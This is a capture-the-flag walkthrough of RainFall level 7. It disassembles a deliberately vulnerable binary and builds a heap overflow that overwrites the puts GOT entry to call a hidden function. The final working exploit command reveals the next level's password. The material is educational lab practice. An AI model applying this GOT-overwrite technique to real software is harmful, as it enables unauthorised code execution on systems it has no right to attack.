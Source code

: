 # Level 7

Once logged in, you will see a binary `level7`.

```
$ ssh localhost -p 4444 -l level7
	  _____       _       ______    _ _
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on localhost:4242
level7@localhost's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level7/level7
level7@RainFall:~$
level7@RainFall:~$ ls
level7
```

Let's run this and see what it does.

```
level7@RainFall:~$ ls
level7
level7@RainFall:~$ ./level7
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 aaaaaaaaaaaaaaaaaa
Segmentation fault (core dumped)
level7@RainFall:~$
```

It gives segmentation fault, and we want to avoid that, so let's take a look at the binary.

```
level7@RainFall:~$ gdb ./level7
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/user/level7/level7...(no debugging symbols found)...done.
gdb-peda$ disass main
Dump of assembler code for function main:
   0x08048521 <+0>:	push   ebp
   0x08048522 <+1>:	mov    ebp,esp
   0x08048524 <+3>:	and    esp,0xfffffff0
   0x08048527 <+6>:	sub    esp,0x20
   0x0804852a <+9>:	mov    DWORD PTR [esp],0x8
   0x08048531 <+16>:	call   0x80483f0 <malloc@plt>
   0x08048536 <+21>:	mov    DWORD PTR [esp+0x1c],eax
   0x0804853a <+25>:	mov    eax,DWORD PTR [esp+0x1c]
   0x0804853e <+29>:	mov    DWORD PTR [eax],0x1
   0x08048544 <+35>:	mov    DWORD PTR [esp],0x8
   0x0804854b <+42>:	call   0x80483f0 <malloc@plt>
   0x08048550 <+47>:	mov    edx,eax
   0x08048552 <+49>:	mov    eax,DWORD PTR [esp+0x1c]		; set eax to [esp+0x1c]
   0x08048556 <+53>:	mov    DWORD PTR [eax+0x4],edx		; set eax+0x4 to edx
   0x08048559 <+56>:	mov    DWORD PTR [esp],0x8
   0x08048560 <+63>:	call   0x80483f0 <malloc@plt>		; malloc (esp = 8)
   0x08048565 <+68>:	mov    DWORD PTR [esp+0x18],eax		; return value of malloc allocated to [esp+0x18]
   0x08048569 <+72>:	mov    eax,DWORD PTR [esp+0x18]		; eax = [esp+0x18]
   0x0804856d <+76>:	mov    DWORD PTR [eax],0x2			; eax = 2;
   0x08048573 <+82>:	mov    DWORD PTR [esp],0x8
   0x0804857a <+89>:	call   0x80483f0 <malloc@plt>		; malloc(esp = 8);
   0x0804857f <+94>:	mov    edx,eax						; return value of eax to edx;
   0x08048581 <+96>:	mov    eax,DWORD PTR [esp+0x18]
   0x08048585 <+100>:	mov    DWORD PTR [eax+0x4],edx
   0x08048588 <+103>:	mov    eax,DWORD PTR [ebp+0xc]
   0x0804858b <+106>:	add    eax,0x4
   0x0804858e <+109>:	mov    eax,DWORD PTR [eax]			; eax = 4
   0x08048590 <+111>:	mov    edx,eax
   0x08048592 <+113>:	mov    eax,DWORD PTR [esp+0x1c]		; eax = a[1]
   0x08048596 <+117>:	mov    eax,DWORD PTR [eax+0x4]
   0x08048599 <+120>:	mov    DWORD PTR [esp+0x4],edx
   0x0804859d <+124>:	mov    DWORD PTR [esp],eax
   0x080485a0 <+127>:	call   0x80483e0 <strcpy@plt>
   0x080485a5 <+132>:	mov    eax,DWORD PTR [ebp+0xc]
   0x080485a8 <+135>:	add    eax,0x8
   0x080485ab <+138>:	mov    eax,DWORD PTR [eax]
   0x080485ad <+140>:	mov    edx,eax
   0x080485af <+142>:	mov    eax,DWORD PTR [esp+0x18]
   0x080485b3 <+146>:	mov    eax,DWORD PTR [eax+0x4]
   0x080485b6 <+149>:	mov    DWORD PTR [esp+0x4],edx
   0x080485ba <+153>:	mov    DWORD PTR [esp],eax
   0x080485bd <+156>:	call   0x80483e0 <strcpy@plt>
   0x080485c2 <+161>:	mov    edx,0x80486e9
   0x080485c7 <+166>:	mov    eax,0x80486eb
   0x080485cc <+171>:	mov    DWORD PTR [esp+0x4],edx
   0x080485d0 <+175>:	mov    DWORD PTR [esp],eax
   0x080485d3 <+178>:	call   0x8048430 <fopen@plt>
   0x080485d8 <+183>:	mov    DWORD PTR [esp+0x8],eax
   0x080485dc <+187>:	mov    DWORD PTR [esp+0x4],0x44
   0x080485e4 <+195>:	mov    DWORD PTR [esp],0x8049960
   0x080485eb <+202>:	call   0x80483c0 <fgets@plt>
   0x080485f0 <+207>:	mov    DWORD PTR [esp],0x8048703
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>
   0x080485fc <+219>:	mov    eax,0x0
   0x08048601 <+224>:	leave
   0x08048602 <+225>:	ret
End of assembler dump.
gdb-peda$
```

By analyzing the main function, the main function takes arguments(`argv`) from `stdin`, takes and allocates into two local variables. Afterwards, the function `fgets` with arguments will be called and stores the value into the global variable `c(0x08049960)`, and the string `~~` will be printed out.

But the goal is to get the flag, and the program doesn't seem to print out flags without an exploit.

```
level7@RainFall:~$ ./level7 aaaa bbbb
~~
level7@RainFall:~$
```

Let's see if there is any other function declared.

```
gdb-peda$ info functions
All defined functions:
[...]
0x080484f4  m
0x08048521  main
[...]
```

The funciton `m` is here, so let's see the assembly.

```
gdb-peda$ disass m
Dump of assembler code for function m:
   0x080484f4 <+0>:	push   ebp
   0x080484f5 <+1>:	mov    ebp,esp
   0x080484f7 <+3>:	sub    esp,0x18
   0x080484fa <+6>:	mov    DWORD PTR [esp],0x0
   0x08048501 <+13>:	call   0x80483d0 <time@plt>
   0x08048506 <+18>:	mov    edx,0x80486e0
   0x0804850b <+23>:	mov    DWORD PTR [esp+0x8],eax
   0x0804850f <+27>:	mov    DWORD PTR [esp+0x4],0x8049960
   0x08048517 <+35>:	mov    DWORD PTR [esp],edx
   0x0804851a <+38>:	call   0x80483b0 <printf@plt>
   0x0804851f <+43>:	leave
   0x08048520 <+44>:	ret
End of assembler dump.
```

By decompiling the assembly, the function calls out `time`, and prints out the value from given parameters.

During the first call to `strcpy`, we can overwrite the address used as destination for the second `strcpy` (`second[1]`) => we want to overwrite function puts() GOT address to call function `m` instead.

In order to do, it is necessary to find out the offset.

By using a [buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/), it is easy to find the offset.

By using the 'pattern generator', the offset is 20

```
level7@RainFall:~$ ltrace ./level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
__libc_start_main(0x8048521, 2, 0xbffff744, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                 = 0x0804a008
malloc(8)                                 = 0x0804a018
malloc(8)                                 = 0x0804a028
malloc(8)                                 = 0x0804a038
strcpy(0x0804a018, "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab"...) = 0x0804a018
strcpy(0x37614136, NULL <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

After having figured out how to overwrite the `second[1]` pointer in the first part of this exploit, we then need to overwrite the `puts` GOT (Global Offset Table) address with a pointer to `m`. (See level 5 walkthrough for an explanation of GOT)

In short, instead of calling `puts`, we want to call `m`. The address for `puts` is cached on the GOT and we fill that cache before the real address gets checked.

The address for `puts` can be easily found on gdb, anc can be checked by using `ltrace`.

```
All functions matching regular expression "puts":

Non-debugging symbols:
0x08048400  puts
0x08048400  puts@plt
gdb-peda$ disass puts
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:	jmp    DWORD PTR ds:0x8049928    // same as 0x08049928
   0x08048406 <+6>:	push   0x28
   0x0804840b <+11>:	jmp    0x80483a0
End of assembler dump.
```

Here's our program with half of the exploit complete, writing `"AAAA"` into the pointer for `puts`.

```
level7@RainFall:~$ ltrace ./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') AAAA
__libc_start_main(0x8048521, 3, 0xbffff774, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                 = 0x0804a008
malloc(8)                                 = 0x0804a018
malloc(8)                                 = 0x0804a028
malloc(8)                                 = 0x0804a038
strcpy(0x0804a018, "AAAAAAAAAAAAAAAAAAAA(\231\004\b") = 0x0804a018
strcpy(0x08049928, "AAAA")                = 0x08049928
fopen("/home/user/level8/.pass", "r")     = 0
fgets( <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

As found out above, the address for function `m()` is `0x080484f4`, so the payload needs to be set up as below:

```
    padding (20 bytes) + GOT address (4 bytes)   +   m() function address (4 bytes)
                     1st arg                                   2nd arg
```

And voilà our completed exploit:

```
level7@RainFall:~$ ./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9 - 1654670080
level7@RainFall:~$
```

